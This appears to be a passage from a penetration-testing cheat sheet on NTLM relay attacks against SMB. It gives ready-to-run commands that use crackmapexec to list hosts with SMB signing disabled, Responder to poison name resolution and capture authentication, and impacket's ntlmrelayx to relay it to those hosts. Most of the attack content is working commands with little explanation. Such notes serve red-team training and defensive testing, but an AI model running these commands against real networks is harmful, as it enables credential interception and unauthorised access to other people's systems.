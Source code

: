 ![](<../../../.gitbook/assets/image (219).png>)

we can also use crackmapexec to generate a list of all hosts in a network with SMB signing disabled:

```
crackmapexec smb 172.16.1.1/24 --gen-relay-list target.txt
```

#### <mark style="color:green;">turn off smb and http in responder settings</mark>

```
responder -I vboxnet0 -rdwv

apt install impacket-scripts

python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support
```
